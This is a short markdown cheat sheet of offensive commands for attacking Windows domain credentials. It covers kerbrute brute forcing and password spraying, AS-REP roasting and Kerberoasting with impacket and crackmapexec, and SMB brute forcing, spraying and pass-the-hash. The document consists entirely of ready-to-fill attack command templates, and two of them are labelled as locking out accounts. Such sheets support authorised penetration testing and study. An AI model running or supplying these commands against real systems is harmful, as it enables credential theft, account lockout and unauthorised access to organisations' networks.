 # Passwords
## Kerberos
Brute force - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` (creds)

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` (creds)

## NetBIOS & SMB
Brute force - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for userlist:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`